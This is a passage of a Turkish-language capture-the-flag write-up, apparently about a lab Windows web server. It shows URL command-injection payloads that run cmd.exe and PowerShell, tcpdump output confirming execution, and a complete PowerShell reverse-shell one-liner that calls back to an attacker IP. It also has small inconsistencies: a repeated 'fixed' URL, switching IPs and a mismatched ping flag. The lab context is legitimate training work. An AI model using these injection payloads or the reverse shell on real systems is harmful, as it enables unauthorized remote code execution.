 ```
http://10.10.10.8/?search=%00{.+exec|C%3A%5Cwindows%5Csystem32%5Ccmd.exe%20/c%20ping%2010.10.14.10.}
```

Or URL decoded:

```
http://10.10.10.8/?search=%00{.+exec|c:\windows\system32\cmd.exe+/c+ping+-c+1+10.10.14.10.}
```


### POC

Bir kavram kanıtı olarak, kendime ping atmayı denemek için bu URL'yi hazırladım:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

Eğer çalışıyorsa, hostumda tek bir ICMP paketi görmeliyim. Tcpdump'ı başlattım ve gönderdim ama hiçbir şey yok.

Genellikle, bu mevcut ortamda sistemin ping yolunu bulamamasıyla ilgili bir sorun olabilir. Bu yüzden komuttan önce cmd /c eklemeyi denedim:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

İşe yaradı (ilginç bir şekilde dört kez):

```
sudo tcpdump -i tun0 icmp and src 10.10.10.8

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40
```

PowerShell ile de çalıştırabilirim:

```
http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.16.9.}
```


### Shell
Bu sunucunun eski olması ve kolay derecelendirmesi nedeniyle muhtemelen Defender / AMSI hakkında endişelenmem gerekmiyor, bu yüzden [Nishang](https://github.com/samratashok/nishang)'dan bir PowerShell scripti alacağım. `Invoke-PowerShellTcpOneLine.ps1` scriptini kopyalayıp yorumları keseceğim ve IP ile portu güncelleyeceğim.

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.9',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
